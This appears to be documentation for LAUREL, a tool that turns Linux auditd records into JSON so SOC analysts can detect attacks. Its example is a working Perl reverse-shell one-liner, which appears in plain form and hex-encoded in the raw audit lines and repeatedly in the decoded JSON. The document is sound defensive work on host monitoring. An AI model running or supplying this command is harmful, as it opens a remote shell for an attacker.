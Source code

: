 # Practical _auditd(8)_ problems

When configured with the right ruleset, logs written by the Linux audit daemon contain most of the information that a competent SOC team needs for host-based security monitoring.

Unfortunately, some design choices for the log format make accessing this information harder than necessary.

Running a simple Perl [reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) one-liner
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
produces the following output in the audit log:
```
type=SYSCALL msg=audit(1626611363.720:348501): arch=c000003e syscall=59 success=yes exit=0 a0=55c094deb5c0 a1=55c094dea770 a2=55c094dbf1b0 a3=fffffffffffff286 items=3 ppid=722076 pid=724395 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts3 ses=3 comm="perl" exe="/usr/bin/perl" subj==unconfined key=(null)ARCH=x86_64 SYSCALL=execve AUID="user" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E285354444F55542C223E265322293B6F70656E285354444552522C223E265322293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): cwd="/root"
type=PATH msg=audit(1626611363.720:348501): item=0 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=1 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=2 name="/lib64/ld-linux-x86-64.so.2" inode=404797 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PROCTITLE msg=audit(1626611363.720:348501): proctitle=7065726C002D650075736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F6174
```

A cursory look at the audita log does not tell us what is going on, except that a Perl interpreter has been started. We would like to do better.

There are several issues with processing this log file format within a SIEM context:

- Different aspects of the same audit event are spread across multiple lines and have to be joined together.
- Strings that contain characters with special meaning for the audit log format (spaces, quotes, etc.) are encoded as hexadecimal strings without quotes and require decoding before they can be processed or displayed to the analyst.
- For numeric values, there is no clear distinction whether they should be interpreted as decimal, octal, or hexadecimal values. (This does not matter for this example.)
- Long command lines are even spread across multiple EXECVE event lines. (This does not matter for this example.)
- If the _auditd(8)_ user-space daemon adds information such as user   or group names (`format=ENRICHED`), this extra information is appended after a `\x1d` "group separator" character which may or may  not be displayed correctly.

This is the same log entry, processed by _LAUREL_ into a single log line:
``` json
{"ID":"1626611363.720:348501","SYSCALL":{"arch":"0xc000003e","syscall":59,"success":"yes","exit":0,"a0":"0x55c094deb5c0","a1":"0x55c094dea770","a2":"0x55c094dbf1b0","a3":"0xfffffffffffff286","items":3,"ppid":722076,"pid":724395,"auid":1000,"uid":0,"gid":0,"euid":0,"suid":0,"fsuid":0,"egid":0,"sgid":0,"fsgid":0,"tty":"pts3","ses":3,"comm":"perl","exe":"/usr/bin/perl","subj":"=unconfined","key":null,"ARCH":"x86_64","SYSCALL":"execve","AUID":"user","UID":"root","GID":"root","EUID":"root","SUID":"root","FSUID":"root","EGID":"root","SGID":"root","FSGID":"root"},"EXECVE":{"argc":3,"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]},"CWD":{"cwd":"/root"},"PATH":[{"item":0,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":1,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":2,"name":"/lib64/ld-linux-x86-64.so.2","inode":404797,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"}],"PROCTITLE":{"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_at"]}","PARENT_INFO":{"ID":"1626611323.973:348120","ARGV": ["bash"],"exe":"/bin/bash","comm":"bash","ppid":3190631}}
```

We can see that our main problems that would have prevented us from identifying the reverse shell have been resolved:
``` json
"EXECVE":{"argc":3,"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}
```

We can also see the parent process that was used to spawn the reverse shell:
``` json
"PARENT_INFO":{"ID":"1626611323.973:348120","ARGV":["bash"],"exe":"/bin/bash","comm":"bash","ppid":3190631}
```

Every line is a proper JSON document that can be reformatted with _jq_:
``` json
{
  "ID": "1626611363.720:348501",
  "SYSCALL": {
    "arch": "0xc000003e",
    "syscall": 59,
    "success": "yes",
    "exit": 0,
    "a0": "0x55c094deb5c0",
    "a1": "0x55c094dea770",
    "a2": "0x55c094dbf1b0",
    "a3": "0xfffffffffffff286",
    "items": 3,
    "ppid": 722076,
    "pid": 724395,
    "auid": 1000,
    "uid": 0,
    "gid": 0,
    "euid": 0,
    "suid": 0,
    "fsuid": 0,
    "egid": 0,
    "sgid": 0,
    "fsgid": 0,
    "tty": "pts3",
    "ses": 3,
    "comm": "perl",
    "exe": "/usr/bin/perl",
    "subj": "=unconfined",
    "key": null,
    "ARCH": "x86_64",
    "SYSCALL": "execve",
    "AUID": "user",
    "UID": "root",
    "GID": "root",
    "EUID": "root",
    "SUID": "root",
    "FSUID": "root",
    "EGID": "root",
    "SGID": "root",
    "FSGID": "root"
  },
  "EXECVE": {
    "argc": 3,
    "ARGV": [
      "perl",
      "-e",
      "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"
    ]
  },
  "CWD": {
    "cwd": "/root"
  },
  "PATH": [
    {
      "item": 0,
      "name": "/usr/bin/perl",
      "inode": 401923,
      "dev": "fd:01",
      "mode": "0o100755",
      "ouid": 0,
      "ogid": 0,
      "rdev": "00:00",
      "nametype": "NORMAL",
      "cap_fp": "0x0",
      "cap_fi": "0x0",
      "cap_fe": 0,
      "cap_fver": "0x0",
      "cap_frootid": "0",
      "OUID": "root",
      "OGID": "root"
    },
    {
      "item": 1,
      "name": "/usr/bin/perl",
      "inode": 401923,
      "dev": "fd:01",
      "mode": "0o100755",
      "ouid": 0,
      "ogid": 0,
      "rdev": "00:00",
      "nametype": "NORMAL",
      "cap_fp": "0x0",
      "cap_fi": "0x0",
      "cap_fe": 0,
      "cap_fver": "0x0",
      "cap_frootid": "0",
      "OUID": "root",
      "OGID": "root"
    },
    {
      "item": 2,
      "name": "/lib64/ld-linux-x86-64.so.2",
      "inode": 404797,
      "dev": "fd:01",
      "mode": "0o100755",
      "ouid": 0,
      "ogid": 0,
      "rdev": "00:00",
      "nametype": "NORMAL",
      "cap_fp": "0x0",
      "cap_fi": "0x0",
      "cap_fe": 0,
      "cap_fver": "0x0",
      "cap_frootid": "0",
      "OUID": "root",
      "OGID": "root"
    }
  ],
  "PROCTITLE": {
    "ARGV": [
      "perl",
      "-e",
      "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_at"
    ]
  },
  "PARENT_INFO": {
    "ID": "1626611323.973:348120",
    "ARGV": [
      "bash"
    ],
    "exe": "/bin/bash",
    "comm": "bash",
    "ppid": 3190631
  }
}
```
